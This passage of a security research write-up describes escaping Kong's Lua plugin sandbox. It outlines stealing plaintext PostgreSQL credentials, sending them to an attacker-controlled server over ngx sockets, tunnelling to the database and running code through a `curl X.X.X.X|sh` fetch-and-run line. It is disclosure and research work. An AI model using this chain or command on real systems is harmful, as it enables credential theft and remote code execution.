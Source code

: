 We can still obtain the information we miss thanks to the inspect Lua module, yay! 😀

```
- https://github.com/kikito/inspect.lua
- luarocks install inspect
kong.log.err("\n" .. inspect(sandbox_opts) .. "\n")
print(inspect(my_var))
```

But… We're sandboxed, we can not import a module from our sandboxed Lua code!! ⛔

To circumvent this issue, we will manually modify the plugin code to import the inspect module before the sandbox operation takes place, and pass the module to the sandbox by polluting one of the objects (here the "Kong" variable) passed as a sandbox option.

But HEY, if I can pass functions or modules to the sandbox that way, maybe this pattern is already present in the code? Maybe nefarious functions are already in the box? Would it be… self-sandbox pollution?

Actually yes! Here are (some of) the cool poisonous findings we found!

- The `kong` object contains the secrets (clear plaintext) for PostgreSQL 😨
- The `ngx` object contains the socket object/module 😱

There might be more, but we already have everything we need with these two! Here's the plan.

- We use Konga (or curl with the admin API for simpler demo purpose) to drop our Lua code
  - Lua runs in the sandbox
  - Reads the database credentials in the kong object
  - Uses the ngx socket object to send them out to an attacker-controlled server
- With the Postgres credentials at hand, we can then
  - Send more Lua code taking advantage ngx.socket create a tcp tunnel
  - Tunnel that links the attacker-controlled server to the internal Postgres database
- Final step, we exploit the now exposed PostgreSQL with the stolen credentials from the external attacker machine, something like `SELECT * FROM PROGRAM("curl X.X.X.X|sh")` but with the proper Postgres syntax (thanks to metasploit 🔫)! ⚔️

As giving the whole exploit details in a high-level article doesn't really fit in, feel free to read the associated huntr.dev technical report as the Kong one got disclosed (without our consent 👏)!

- <https://huntr.dev/bounties/0e7fc024-b21e-479b-95a6-cdca16321e54/>
- Demo - Steal postgres credentials from kong's sandbox - <https://youtu.be/4rIigKPbOOA>
- Demo - Exploit postgres through kong's lua tcp pipe - <https://youtu.be/d8asqX4RYD4>

## Responsible Disclosure

Of course, as a company and as a researcher, going through the responsible disclosure process is a must. We tried to do the right thing, but turns out things didn't go as planned either.
